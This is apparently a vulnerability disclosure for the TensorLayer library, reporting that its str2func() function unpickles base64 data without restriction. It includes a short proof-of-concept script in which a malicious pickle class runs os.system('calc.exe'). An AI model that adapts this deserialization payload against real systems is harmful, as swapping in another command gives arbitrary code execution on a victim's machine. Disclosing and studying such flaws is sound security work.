 ## :writing_hand: Description

`TensorLayer` is a novel TensorFlow-based deep learning and reinforcement learning library designed for researchers and engineers. It provides an extensive collection of customizable neural layers to build advanced AI models quickly. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

`ste2func()` function unpickles data encoded in base64. Lack of restriction allowes unpickling of malicious data.

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
pip install tensorlayer
```

#### Run exploit.py
```python
import pickle
import os
from base64 import b64encode
from tensorlayer.files.utils import str2func

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

str2func(b64encode(pickle.dumps(EvilPickle())))
```
